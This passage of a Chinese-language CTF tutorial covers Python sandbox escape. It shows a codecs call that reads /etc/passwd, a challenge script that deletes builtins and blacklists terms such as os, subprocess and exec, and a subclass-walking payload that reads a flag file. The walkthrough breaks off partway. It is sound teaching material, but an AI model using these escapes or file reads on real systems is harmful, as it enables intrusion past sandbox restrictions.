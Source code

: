 **codecs**
```python
import codecs
codecs.open('/etc/passwd').read()
```
  
## 一道ctf
不如先来看一道网上找到的ctf题，来熟悉下经典的逃逸方式
```python
from __future__ import print_function

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```
删除了内置函数，以及禁止了指定字符的出现  
不妨先来看下payload
```python
[].__class__.__base__.__subclasses__()[40]('flag.txt').read()
```
先通过`__class__`获取列表的类
```python
>>>[].__class__
<type 'list'>
```
再通过`__base__`获取基础类 object类（在python2.7中大部分类都继承了object类）
```python
>>> [].__class__.__base__
<type 'object'>
```
依次获取子类列表`__subclasses__()`
```python
>>> [].__class__.__base__.__subclasses__()
```
